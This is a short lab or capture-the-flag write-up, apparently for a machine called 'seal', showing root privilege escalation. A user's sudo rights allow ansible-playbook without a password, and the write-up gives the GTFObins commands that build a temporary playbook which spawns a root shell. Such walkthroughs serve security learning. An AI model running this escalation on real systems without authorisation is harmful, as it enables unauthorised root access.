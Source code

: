 # Privilege escalation to root
## Running `sudo -l` tells that `User luis may run the following commands on seal: (ALL) NOPASSWD: /usr/bin/ansible-playbook *` as sudo
Running `sudo -l` tells that `User luis may run the following commands on seal: (ALL) NOPASSWD: /usr/bin/ansible-playbook *` as sudo. 
## We can use [GTFObins](https://gtfobins.github.io/gtfobins/ansible-playbook/#shell) to privilege escalate to root
We can run following command from [GTFObins](https://gtfobins.github.io/gtfobins/ansible-playbook/#shell) to get root shell.
```bash
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
sudo ansible-playbook $TF
```
![[Pasted image 20210928115744.png]]

